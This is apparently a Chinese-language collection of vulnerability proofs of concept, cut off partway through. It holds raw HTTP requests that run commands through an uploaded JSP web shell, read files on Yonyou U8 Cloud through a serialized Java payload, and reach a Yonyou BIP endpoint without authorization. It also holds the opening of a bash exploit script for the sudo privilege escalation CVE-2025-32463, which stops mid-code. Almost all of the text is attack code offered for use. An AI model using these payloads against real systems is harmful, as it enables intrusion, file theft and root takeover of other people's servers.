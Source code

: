 访问 WebShell 执行命令  
```
GET /images/upload/123.jsp?cmd=whoami HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.2331.38 Safari/537.36

```  
  
  
漏洞描述：  
用友U8 Cloud FileManageServlet存在任意文件读取  
  
漏洞描述：  
```
POST /service/FileManageServlet HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/octet-stream

{{unquote("\xac\xed\x00\x05sr\x00\x11java.util.HashMap\x05\x07\xda\xc1\xc3\x16`\xd1\x03\x00\x02F\x00\x0aloadFactorI\x00\x09thresholdxp?@\x00\x00\x00\x00\x00\x0cw\x08\x00\x00\x00\x10\x00\x00\x00\x03t\x00\x04patht\x00\x12C:\\Windows\\win.init\x00\x06dsNamet\x00\x03plmt\x00\x08operTypet\x00\x0ddownloadlocalx")}}
```  
  
  
  
漏洞名称：  
用友BIP数据应用服务存在未授权访问  
  
漏洞描述：  
```
GET /bi/api/SemanticModel/GetOlapConnectionList/?token=e30fe47a-f33e-463e-bc4a-843957ca88dd_263720ea7e397482da220115cae828_1214162142339 HTTP/1.1
Host: target.com
Accept: application/json
Connection: close

```  
  
  
漏洞名称：  
 CVE-2025-32463    
 sudo提权  
  
漏洞描述：  
```
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
```